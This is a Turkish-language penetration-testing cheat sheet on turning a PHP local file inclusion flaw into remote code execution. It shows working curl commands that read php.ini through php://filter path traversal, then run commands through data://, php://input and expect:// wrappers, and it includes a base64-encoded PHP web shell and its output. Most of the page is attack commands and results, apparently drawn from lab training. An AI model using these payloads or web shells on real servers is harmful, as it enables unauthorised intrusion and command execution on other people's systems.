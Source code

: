 ```yaml
---
glightbox: true
icon: material/circle-small
---
```


# PHP Wrappers

## Data

### Checking PHP Configurations

[Data wrapper](https://www.php.net/manual/en/wrappers.data.php), PHP kodu da dahil olmak üzere harici verileri dahil etmek için kullanılabilir. Ancak bunun için PHP yapılandırmasında `allow_url_include` ayarı etkin durumda olmalıdır. Bu sebeple ilk önce bu ayarın etkin olup olmadığını kontrol etmeliyiz.

İlk adım olarak Apache konumunda (`/etc/php/VERSION/apache2/php.ini`) veya Nginx konumunda (`/etc/php/VERSION/fpm/php.ini`) bulunan PHP yapılandırma dosyasını LFI ile elde etmeliyiz. Geçerli versiyonu (`VERSION`) bulmak için, en güncel PHP sürümünden başlayarak doğru sürümü bulana kadar diğer sürümleri deneyebiliriz.

[PHP Base64 Conversion Filter](https://www.php.net/manual/en/filters.convert.php) ile birlikte aşağıdaki gibi bir cURL komutu çalıştırmalıyız:

```bash
curl "http://SERVER_IP_ADDRESS:PORT/index.php?language=php://filter/read=convert.base64-encode/resource=../../../etc/php/7.4/apache2/php.ini"
```

```html title="Output"
<!DOCTYPE html>

<html lang="en">

...SNIP...

 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O

    ...SNIP...

    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

Elde edilen Base64 dizesi çözüldükten sonra `allow_url_include` ayarının etkin olup olmadığı kontrol edilebilir:

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

```text title="Output"
allow_url_include = On
```

Çıktıda görüldüğü üzere `allow_url_include` ayarı etkin durumdadır, yani Data wrapper kullanılabilir.

### Remote Code Execution

Data wrapper kullanımına geçmeden önce, temel bir PHP web shell Base64 ile kodlanır:

```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```

```text title="Output"
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```

Oluşturulan Base64 dizesini kullanarak cURL ile bir saldırı gerçekleştir (örnekte `cmd` olarak `id` komutu kullanılmıştır):

```bash
curl -s 'http://SERVER_IP_ADDRESS:PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Input

Data wrapper kullanımına benzer şekilde [Input wrapper](https://www.php.net/manual/en/wrappers.php.php) da kullanılabilir. Farklı olarak girdi için POST verisi verilmelidir:

```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://SERVER_IP_ADDRESS:PORT/index.php?language=php://input&cmd=id" | grep uid
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

!!! warning "GET"

    Web uygulamasında bulunan işlev, GET isteklerini kabul edecek şekilde bir zafiyete sahip değilse, dinamik bir web shell (`<?php system($_GET["cmd"]); ?>`) yerine statik bir shell (`<\?php system("id")?>`) kullanılmalıdır.

## Expect

[Expect wrapper](https://www.php.net/manual/en/wrappers.expect.php) direkt olarak komut çalıştırılmasına izin verir. Fakat bu uzantı, sunucu tarafında el ile yüklenmiş ve etkinleştirilmiş olmalıdır.

Aynı `allow_url_include` ayarında olduğu gibi, bu sefer `expect` ayarının etkin olup olmadığını kontrol etmeliyiz:

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

```text title="Output"
extension=expect
```

Expect wrapper aşağıdaki şekilde kullanılabilir:

```bash
curl -s "http://SERVER_IP_ADDRESS:PORT/index.php?language=expect://id" | grep uid
```

```text title="Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Expect wrapper kullanımının daha basit olduğu görülebilir. Çünkü bu modül, direkt olarak komut çalıştırmak için tasarlanmıştır.

